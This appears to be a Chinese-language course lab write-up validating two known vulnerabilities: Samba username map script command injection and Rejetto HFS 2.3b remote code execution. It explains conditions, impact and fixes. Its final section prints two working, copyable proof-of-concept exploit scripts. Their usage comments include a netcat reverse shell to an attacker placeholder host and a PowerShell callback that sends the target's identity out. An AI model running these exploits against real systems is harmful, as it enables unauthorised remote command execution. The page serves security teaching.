

授權隔離環境
所有操作以課程 Lab 的虛擬機與私有網段完成，目標是理解漏洞條件、攻擊流程與修補方式。
Security lab · vulnerability validation
在授權的隔離 Lab 環境中，針對 Samba Username Map Script Command Injection 與 Rejetto HFS 2.3b RCE 進行服務辨識、漏洞條件確認、PoC 驗證與結果紀錄。

01
本頁整理 Samba 與 Rejetto HFS 兩個漏洞驗證，聚焦服務辨識、漏洞條件確認、PoC 復現、回連觀察與防護方式。
所有操作以課程 Lab 的虛擬機與私有網段完成，目標是理解漏洞條件、攻擊流程與修補方式。
先以掃描確認開放服務、版本與可疑入口，再對照 CVE 條件判斷是否可驗證。
Samba 以 username map script 注入流程觀察 RCE；HFS 以 search macro / command execution payload 驗證 RCE。
紀錄 command shell、reverse shell、HTTP callback 等結果，並整理更新版本、關閉服務與限制存取等防護方向。
02
Samba Username Map Script Command Injection 影響 Samba 3.0.20 至 3.0.25rc3。驗證重點是確認 smbd 服務與版本、理解 username map script 將未妥善處理的輸入交給 shell 的風險，並在 Lab 中觀察命令執行結果。
此漏洞發生在 Samba 處理 username map script 的過程中。特定版本會將登入時送出的使用者名稱交給外部 script 解析；若輸入未被妥善過濾，攻擊者可在 username 欄位中混入 shell metacharacters，使 Samba 在解析帳號映射時一併執行非預期命令。
在可連到 SMB 服務且目標啟用 vulnerable 設定時，攻擊者可能不需有效帳密就觸發命令執行。影響包含建立檔案、取得 command shell、進一步反向連線，以及以 Samba 服務權限操作主機；若服務以高權限執行，風險會擴大為完整主機控制。
掃描 NetBIOS / SMB 相關 port，確認 Samba smbd 服務與版本資訊。
使用現成模組確認漏洞可復現，觀察 command shell 與權限結果。
整理自寫 PoC 的 payload 組成，確認注入點與命令執行行為。
建立反向連線，驗證漏洞可造成遠端指令執行與互動 shell 風險。
03
Rejetto HTTP File Server 2.3b 的 search 功能可被特殊 macro 語法觸發遠端命令執行。驗證流程先確認 HFS 服務開在 Windows 目標主機，再以 Python payload 與 HTTP callback 觀察命令執行與回連結果。
HFS 2.3b 會解析請求參數中的特殊 macro 語法。當 search 參數被放入特定字串時，HFS 可能將其中的 macro 當作伺服器端指令處理，而不是單純視為搜尋文字；若 macro 呼叫到執行命令的功能，就會造成遠端命令執行。
攻擊者只要能連到 HFS Web 服務，就可能透過 HTTP request 讓目標主機執行命令。實際影響包含寫入檔案、執行 PowerShell、讓目標端回連攻擊端，以及讀取或修改 HFS 可存取範圍內的資料；若 HFS 以高權限啟動，系統層級風險也會提高。
| 階段 | 驗證內容 | 紀錄重點 |
|---|---|---|
| 環境確認 | 確認 Kali 攻擊端、Windows 目標端與 HFS port。 | 以連線測試確認 80/tcp HTTP 服務可達。 |
| Payload 組成 | 以 HFS macro / command execution 形式送出 payload。 | 觀察 URL encoding 與命令格式如何影響執行結果。 |
| Callback | 由目標端觸發 HTTP request 回到攻擊端 listener。 | 用 callback 驗證遠端命令確實被執行。 |
| Demo | 保留完整操作影片與截圖。 | 用於說明從環境確認到 payload sent 的驗證流程。 |
04
以下截圖整理自攻擊紀錄 HackMD：Samba 保留服務掃描、Metasploit、手寫 PoC 與 reverse shell；HFS 保留服務確認、檔案寫入驗證、listener、payload sent 與 callback 回傳結果。
使用 nmap 確認目標主機開放 139/tcp 與 445/tcp，並辨識為 Samba smbd 服務。
05
將驗證過程中的自製 PoC 腳本內容與執行方式整理成可複製的程式碼框；Samba 與 HFS 可切換查看。
from impacket.smbconnection import SMBConnection
import sys
target = sys.argv[1]
cmd = sys.argv[2]
username = f'/=`sh -c "echo {cmd}|sh"`'
password = "test"
print("[*] Username payload:")
print(username)
try:
conn = SMBConnection(target, target, sess_port=139)
conn.login(username, password)
except Exception as e:
print("[*] SMB error is normal")
print(e)
print("[*] Payload sent")
# 執行範例
# python3 samba_usermap_poc.py <TARGET_IP> "touch /tmp/pwned"
# nc -lvnp <LISTEN_PORT>
# python3 samba_usermap_poc.py <TARGET_IP> "mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | nc <ATTACKER_IP> <LISTEN_PORT> > /tmp/f"import sys
import urllib.parse
import requests
target = sys.argv[1].rstrip("/")
cmd = sys.argv[2]
macro = f"%00{{.exec|{cmd}.}}"
payload = urllib.parse.quote(macro)
url = f"{target}/?search={payload}"
print("[*] Payload URL:")
print(url)
try:
response = requests.get(url, timeout=5)
print(f"[*] HTTP status: {response.status_code}")
except Exception as e:
print("[*] Request error")
print(e)
print("[*] Payload sent")
# 執行範例
# python3 hfs_macro_poc.py http://<TARGET_IP>/ "cmd.exe /c echo poc > C:\\Users\\Public\\Desktop\\poc.txt"
# python3 -m http.server <LISTEN_PORT>
# python3 hfs_macro_poc.py http://<TARGET_IP>/ "powershell -ExecutionPolicy Bypass -Command \"$u='http://<ATTACKER_IP>:<LISTEN_PORT>/?u='+(whoami); Invoke-WebRequest -Uri $u\""